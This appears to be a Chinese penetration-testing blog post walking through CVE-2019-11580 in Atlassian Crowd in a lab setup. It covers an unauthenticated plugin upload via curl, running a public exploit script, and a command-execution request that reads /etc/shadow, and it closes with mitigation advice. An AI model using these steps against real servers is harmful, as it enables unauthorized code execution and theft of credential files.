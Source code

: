 ```yaml
---
title: Atlassian Crowd未授权访问漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- Atlassian Crowd
- 未授权访问
- 远程命令执行
abbrlink: 4469
date: 2020-05-26 11:12:38
keywords:
summary:
img:
password:
---
```



#### 漏洞概述
Atlassian Crowd和Atlassian Crowd Data Center都是澳大利亚Atlassian公司的产品。Atlassian Crowd是一套基于Web的单点登录系统。该系统为用用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了了pdkinstall开发插件,使其存在安全漏漏洞洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件,执行任意代码/命令,从而获得服务器权限


#### 环境搭建
```bash
wget https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.4.3.zip
unzip atlassian-crowd-3.4.3.zip

cd atlassian-crowd-3.4.3
vim crowd-webapp/WEB-INF/classes/crowd-init.properties    #修改crowd-init.properties 配置文件，设置主目录
    crowd.home=/var/crowd-home    # 主目录位置(根据自己的写)

# 执行启动命令
./start_crowd.sh
```
浏览器访问`http://192.168.0.100:8095` 点击`Set up Crowd`
这里去官网申请试用30天`https://my.atlassian.com/products/index`并填写到license 进行下一步安装,直到安装完成。


###### 未授权访问测试
安装完成之后在插件目录会有一些插件`bundled-plugins`
上传一个标准的插件,来自atlassian-bundled-plugins中的`applinks-plugin-5.4.12.jar`
```bash
curl --form "file_cdl=@applinks-plugin-5.4.12.jar" http://192.168.0.100:8095/crowd/admin/uploadplugin.action -v
```


###### Atlassian Crowd RCE
该漏洞源于网络系统或产品未对输入的数据进行正确的验证。受影响的产品及版本包括：Atlassian Crowd 2.1.x版本，3.0.5之前的3.0.x版本，3.1.6之前的3.1.x版本，3.2.8之前的3.2.x版本，3.3.5之前的3.3.x版本，3.4.4之前的3.4.版本；Atlassian Crowd Data Center 2.1.x版本，3.0.5之前的3.0.x版本，3.1.6之前的3.1.x版本，3.2.8之前的3.2.x版本，3.3.5之前的3.3.x版本，3.4.4之前的3.4.版本。

漏洞利用脚本：`https://github.com/jas502n/CVE-2019-11580`
```bash
git clone https://github.com/jas502n/CVE-2019-11580
cd CVE-2019-11580/
python CVE-2019-11580.py http://192.168.0.100:8095

# 通过浏览器访问链接测试其他命令
curl http://192.168.0.100:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow
```




#### 防御手段
- 设置访问`/crowd/admin/uploadplugin.action`的源ip
- 升级最新版本(3.5.0以上)。








